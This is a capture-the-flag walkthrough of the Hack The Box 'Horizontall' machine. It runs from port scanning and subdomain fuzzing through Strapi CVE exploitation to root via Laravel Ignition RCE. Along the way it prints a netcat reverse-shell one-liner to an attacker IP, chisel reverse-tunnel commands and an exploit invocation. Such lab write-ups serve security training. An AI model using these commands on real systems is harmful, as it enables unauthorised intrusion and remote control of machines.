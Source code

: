 # Horizontall

The first thing I did was run a <mark style="color:green;">`Rustscan`</mark> on the target to quickly gather open ports.

```bash
rustscan -a 10.129.151.240 -- -A -sC -sV
```

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL2qJTqj1aoxBGb8yWIN4UJwFs4/UgDEutp3aiL2/6yV2iE78YjGzfU74VKlTRvJZWBwDmIOosOBNl9nfmEzXerD0g5lD5SporBx06eWX/XP2sQSEKbsqkr7Qb4ncvU8CvDR6yGHxmBT8WGgaQsA2ViVjiqAdlUDmLoT2qA3GeLBQgS41e+TysTpzWlY7z/rf/u0uj/C3kbixSB/upkWoqGyorDtFoaGGvWet/q7j5Tq061MaR6cM2CrYcQxxnPy4LqFE3MouLklBXfmNovryI0qVFMki7Cc3hfXz6BmKppCzMUPs8VgtNgdcGywIU/Nq1aiGQfATneqDD2GBXLjzV
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyw6WbPVzY28EbBOZ4zWcikpu/CPcklbTUwvrPou4dCG4koataOo/RDg4MJuQP+sR937/ugmINBJNsYC8F7jN0=
|   256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJqmDVbv9RjhlUzOMmw3SrGPaiDBgdZ9QZ2cKM49jzYB
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We add <mark style="color:green;">`horizontall.htb`</mark> to our <mark style="color:green;">`/etc/hosts`</mark> file since in the output we got "_Did not follow redirect to http://horizontall.htb_"

![](<../../../.gitbook/assets/image (24).png>)

Searching on Google informs us that the latest version of <mark style="color:green;">`nginx`</mark> is 1.21.6 (mainline version) and 1.20.2 (stable version). We'll keep this in mind.

Going to the site, we see a web page.

![](<../../../.gitbook/assets/image (222).png>)

Viewing the source code and going through the site really did not provide anything useful. However, is it possible for the <mark style="color:green;">`nginx`</mark> server to have more vhosts or subdomains? Using <mark style="color:green;">`ffuf`</mark>, we will see something.

```bash
ffuf -u http://horizontall.htb -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.horizontall.htb' -fs 0 -mc 200 
```

![api-prod subdomain](<../../../.gitbook/assets/image (610).png>)

Heading back over to the browser, we are presented with a basic welcome page.

![](<../../../.gitbook/assets/image (22).png>)

Time to enumerate some more. Now there are two interesting directories that we can explore.

![](<../../../.gitbook/assets/image (624).png>)

The reviews directory yields us some users: <mark style="color:green;">`wail`</mark>, <mark style="color:green;">`doe`</mark>, and <mark style="color:green;">`john`</mark>

![](<../../../.gitbook/assets/image (341).png>)

And the admin page

![](<../../../.gitbook/assets/image (240).png>)

Doing a google search on <mark style="color:green;">`strapi`</mark> shows that it is an open source Node.js headless Content Management System (CMS)

Great! Now hopefully we can find a version number somewhere...

![](<../../../.gitbook/assets/image (4).png>)

It seems the current version of is <mark style="color:green;">`Strapi 3.0.0-beta.17.4`</mark>

![](<../../../.gitbook/assets/image (265).png>)

Using <mark style="color:green;">`searchsploit`</mark> gives us some good news. Remote Code Execution ([RCE](https://www.exploit-db.com/exploits/50239))!

![](<../../../.gitbook/assets/image (421).png>)

According to [CVE-2019-18818](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2019-18818)

> strapi before 3.0.0-beta.17.5 mishandles password resets within packages/strapi-admin/controllers/Auth.js and packages/strapi-plugin-users-permissions/controllers/Auth.js."

There's also [CVE-2019-19609](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19609)

> The Strapi framework before 3.0.0-beta.17.8 is vulnerable to Remote Code Execution in the Install and Uninstall Plugin components of the Admin panel, because it does not sanitize the plugin name, and attackers can inject arbitrary shell commands to be executed by the execa function.

We run the exploit and then login

![](<../../../.gitbook/assets/image (511).png>)

![](<../../../.gitbook/assets/image (581).png>)

Awesome! Now there's Plugin called "Files Upload", let's see if we can upload a file to get a reverse shell.

I tried multiple times to get a shell, but the output of following the file yielded something like this:

![](<../../../.gitbook/assets/image (627).png>)

```
http://localhost:1337/uploads/0083c7ac6ed14dce9cc54821af03bf08.php
```

Which made sense based on the exploit code (that's why we see port 1337). I was thinking about if we could do something with changing the port, but that seemed like something too complex and lead to a deep rabbit hole. Then I thought, if we have RCE already from the exploit, couldn't we just try to get a shell that way?

As it turns out, that was a very quick solution

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.38 4444 >/tmp/f
```

![](<../../../.gitbook/assets/image (599).png>)

After upgrading my shell, I searched for the user.txt file

![](<../../../.gitbook/assets/image (433).png>)

I ran linepeas.sh and noticed something interesting. Looks like there is MySQL running and something else on port 8000. What is that port used for?

![](<../../../.gitbook/assets/image (246).png>)

A Google search gave me this result

> TCP Port 8000 is commonly used for development environments of web server software. It generally should not be exposed directly to the Internet. If you are running software like this on the Internet, you should consider placing it behind a reverse proxy.
>
> [Source](https://www.elastic.co/guide/en/siem/guide/current/tcp-port-8000-activity-to-the-internet.html)

This most likely means we might have to do some port forwarding in order to see the website. But first let's see if we can grab some information before doing this.

Using <mark style="color:green;">`curl -v localhost:8000`</mark> gave us a site powered by Laravel AND it's version number

![](<../../../.gitbook/assets/image (441).png>)

Searching for exploits I found these which were helpful

{% embed url="https://www.exploit-db.com/exploits/49424" %}

{% embed url="https://www.ambionics.io/blog/laravel-debug-rce" %}

{% embed url="https://github.com/nth347/CVE-2021-3129_exploit" %}

According to [CVE-2021-3129](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-3129)

> Ignition before 2.5.2, as used in Laravel and other products, allows unauthenticated remote attackers to execute arbitrary code because of insecure usage of file\_get\_contents() and file\_put\_contents(). This is exploitable on sites using debug mode with Laravel before 8.4.2.

#### Port Forwarding

Now to do some port forwarding. We'll use the [chisel ](https://github.com/jpillora/chisel)tool

We'll transfer it to our victim machine and make it an executable

![](<../../../.gitbook/assets/image (450).png>)

Then we'll run the below commands on our kali machine and the victim machine respectively

```bash
./chisel server -p 7777 --reverse # Kali machine
./chisel client 10.10.14.38:7777 R:8000:127.0.0.1:8000 # on Victim
```

![](<../../../.gitbook/assets/image (84).png>)

![Victim machine](<../../../.gitbook/assets/image (42).png>)

Now when we go to <mark style="color:green;">`http://127.0.0.1:8000`</mark> in the browser, we can see the Laravel site

![](<../../../.gitbook/assets/image (418).png>)

#### Priv Esc

Using the GitHub resource for the Laravel vulnerability, we'll execute the following command

```python
./privesc.py http://localhost:8000 Monolog/RCE1 "whoami"
```

![](<../../../.gitbook/assets/image (286).png>)

Awesome! Now we can cat the root.txt file

![](<../../../.gitbook/assets/image (143).png>)

This is nice, but a shell would be nicer :)

![](<../../../.gitbook/assets/image (365).png>)

![](<../../../.gitbook/assets/image (9).png>)

{% hint style="info" %}
Although we get a shell, it's not very stable. But it does the job regardless
{% endhint %}

SUCCESS!

![](<../../../.gitbook/assets/image (86).png>)

